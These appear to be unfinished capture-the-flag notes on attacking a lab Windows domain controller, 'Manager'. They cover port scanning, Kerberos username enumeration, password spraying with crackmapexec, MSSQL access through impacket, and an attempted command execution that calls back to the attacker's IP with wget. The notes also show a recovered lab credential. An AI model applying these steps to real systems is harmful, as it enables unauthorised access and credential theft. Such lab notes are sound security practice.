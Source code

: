 ## Machine Manager : Medium - Windows 

## Notes :

- [*] : Ip Target : 10.10.11.236 

	Ports Open :			
		
		53 	tcp 	open 	domain  	syn-ack 	Simple DNS Plus  	  	 
		80 	tcp 	open 	http  	syn-ack 	Microsoft IIS httpd  	10.0  
		88 	tcp 	open 	kerberos-sec  	syn-ack 	Microsoft Windows Kerberos  	  	server time: 2024-03-06 04:19:43Z 
		135 	tcp 	open 	msrpc  	syn-ack 	Microsoft Windows RPC  	  	 
		139 	tcp 	open 	netbios-ssn  	syn-ack 	Microsoft Windows netbios-ssn  	  	 
		389 	tcp 	open 	ldap  	syn-ack 	Microsoft Windows Active Directory LDAP  	  	Domain: manager.htb0., Site: Default-First-Site-Name 
		445 	tcp 	open 	microsoft-ds  	syn-ack 	  	  	 
		593 	tcp 	open 	ncacn_http  	syn-ack 	Microsoft Windows RPC over HTTP  	1.0  	 
		636 	tcp 	open 	ldap  	syn-ack 	Microsoft Windows Active Directory LDAP  	  	Domain: manager.htb0., Site: Default-First-Site-Name 
		1433 	tcp 	open 	ms-sql-s  	syn-ack 	Microsoft SQL Server 2019  	15.00.2000.00; RTM  	 
		
		And many more ...but we will focus on this first
		
- [*] : >> Port 80 resolved into nothing 

	>> smbclient -N -L //10.10.11.236

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

	>> kerberos also open : will kerbrute for sure ...
	
	kerbrute userenum /usr/share/wordlists/Seclists/Usernames/xato-net-10-million-usernames-dup.txt -d manager.htb --dc manager.htb 
	
	>> enum4linux -> 
	Server 10.10.11.236 allows sessions using username '', password ''    
	Domain Name: MANAGER                                                                                                
	Domain Sid: S-1-5-21-4078382237-1492182817-2568127209
	
	kerbrute
			2024/03/05 23:02:01 >  [+] VALID USERNAME:       ryan@manager.htb
			2024/03/05 23:02:04 >  [+] VALID USERNAME:       guest@manager.htb
			2024/03/05 23:02:05 >  [+] VALID USERNAME:       cheng@manager.htb
			2024/03/05 23:02:06 >  [+] VALID USERNAME:       raven@manager.htb
			2024/03/05 23:02:14 >  [+] VALID USERNAME:       administrator@manager.htb
			2024/03/05 23:02:27 >  [+] VALID USERNAME:       Ryan@manager.htb
			2024/03/05 23:02:33 >  [+] VALID USERNAME:       Raven@manager.htb
			2024/03/05 23:02:44 >  [+] VALID USERNAME:       operator@manager.htb
			2024/03/05 23:03:51 >  [+] VALID USERNAME:       Guest@manager.htb
			2024/03/05 23:03:51 >  [+] VALID USERNAME:       Administrator@manager.htb
			2024/03/05 23:04:46 >  [+] VALID USERNAME:       Cheng@manager.htb
			2024/03/05 23:07:11 >  [+] VALID USERNAME:       jinwoo@manager.htb
			2024/03/05 23:07:33 >  [+] VALID USERNAME:       RYAN@manager.htb
			2024/03/05 23:08:50 >  [+] VALID USERNAME:       RAVEN@manager.htb
			2024/03/05 23:08:53 >  [+] VALID USERNAME:       GUEST@manager.htb
			2024/03/05 23:10:55 >  [+] VALID USERNAME:       Operator@manager.htb
			2024/03/05 23:26:57 >  [+] VALID USERNAME:       OPERATOR@manager.htb


	>> winrm : 
	crackmapexec winrm 10.10.11.236 -u usernames.txt -p usernames.txt --> resolved into nothing 

	SMB         10.10.11.236    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
	HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
	WINRM       10.10.11.236    5985   DC01             [-] manager.htb\ryan:ryan
	... 

	>> http://10.10.11.236:5985/wsman dirsearch _-> resolved into nothing 
	
	 
	>> smb :
	└─$ crackmapexec smb manager.htb -u usernames.txt -p usernames.txt  

	SMB         manager.htb     445    DC01             [+] manager.htb\operator:operator 
	
	smbclient  //10.10.11.236/sysvol  -U operator  --> resolved into nothing 
	Password for [WORKGROUP\operator]:
	Try "help" to get a list of possible commands.
	smb: \> le
	le: command not found
	smb: \> ls
	  .                                   D        0  Thu Jul 27 11:19:07 2023
	  ..                                  D        0  Thu Jul 27 11:19:07 2023
  	manager.htb  --> resolved into nothing 
	

	>>  crackmapexec mssql 10.10.11.236 -u operator -p operator ##didnt work -> -X 'wget 10.10.14.56:80' ##
/home/kali/.local/lib/python3.11/site-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\operator:operator
	
	    Impacket ->
	    usr/share/doc/python3-impacket/examples/mssqlclient.py -port 1433 manager.htb/operator:operator@10.10.11.236 -windows-auth
	    
	    SQL (MANAGER\Operator  guest@master)> EXEC sp_configure 'show advanced options', 1
[-] ERROR(DC01\SQLEXPRESS): Line 105: User does not have permission to perform this action.
SQL (MANAGER\Operator  guest@master)> EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
subdirectory                      depth   file   


SQL (MANAGER\Operator  guest@tempdb)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query
    
SQL (MANAGER\Operator  guest@tempdb)> use master
		[*] ENVCHANGE(DATABASE): Old Value: tempdb, New Value: master
		[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
		SQL (MANAGER\Operator  guest@master)> SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
		TABLE_NAME         
		----------------   
		spt_fallback_db    

		spt_fallback_dev   

		spt_fallback_usg   

		spt_monitor        


	SQL (MANAGER\Operator  guest@tempdb)> 
		EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1; ## CHECK HACKTICKS MSSQL
		
			subdirectory                      depth   file   
			-------------------------------   -----   ----   
			about.html                            1      1   

			contact.html                          1      1   

			css                                   1      0   

			images                                1      0   

			index.html                            1      1   

			js                                    1      0   

			service.html                          1      1   

			web.config                            1      1   

			website-backup-27-07-23-old.zip       1      1   
			
	&& wget 10.10.11.236/website-backup-27-07-23-old.zip

	>> raven creds in xml file :
	raven@manager.htb
	R4v3nBe5tD3veloP3r!123
	    
	    
- [*] : 


	>> 

- [*] : 
	>> 

- [*] : 
	>> 

	
